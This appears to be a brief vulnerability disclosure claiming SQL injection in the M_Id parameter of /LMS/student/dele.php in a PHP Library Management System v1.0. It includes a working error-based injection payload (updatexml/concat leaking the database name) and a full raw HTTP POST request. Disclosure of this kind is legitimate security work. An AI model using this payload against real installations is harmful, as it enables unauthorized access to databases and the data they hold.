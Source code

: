 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/student/dele.php

Vulnerability location: /LMS/student/dele.php, M_Id

[+] Payload: delete=&M_Id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> M_Id

```sql
POST /LMS/student/dele.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

delete=&M_Id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/180452615-db736f92-9dd7-46d4-8819-25dae2d14ddf.png)
